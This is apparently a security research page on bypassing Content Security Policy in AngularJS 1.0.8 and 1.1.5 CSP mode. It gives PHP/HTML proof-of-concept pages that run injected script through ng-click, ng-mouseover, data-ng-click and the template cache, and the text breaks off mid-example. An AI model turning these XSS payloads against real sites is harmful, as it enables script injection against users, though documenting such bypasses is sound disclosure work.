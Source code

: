 ## CSP Bypasses with AngularJS 1.0.8 and 1.1.5 ##

AngularJS is one of the very few - if not the only - MVC frameworks that has an explicit CSP mode. That means, developers can use the powerful templating engine despite the restrictions on eval and Function CSP imposes.

That nevertheless bears risks and leads to an interesting phenomenon: In case an attacker can inject HTML into an AngularJS application context, the injected JavaScript will be executed although CSP should protect from this. in other words: AngularJS brings inline-JavaScript on CSP-protected websites back - by using its own attributes and a complex string parsing and event binding mechanism we will discuss later on this page.

### XSS via Click & Hover (ng-click & ng-mouseover attribute) ###

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-app ng-csp>
<head>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
</head>
<body ng-click="$event.view.alert(1)">
	Click me
	<h1 ng-mouseover="$event.target.ownerDocument.defaultView.alert(2)">Hover me</h1>
</body>
```

### XSS via Click (data-ng-click attribute) ###

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-app ng-csp>
<head>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
</head>
<body data-ng-click="$event.view.alert(1)" onclick="alert(2)">Click me</body>
```

### XSS via Template Cache ###

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-csp ng-app="foo">
<head>
<script
src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<script src="test.js"></script>
</head>
<body>
<div>
```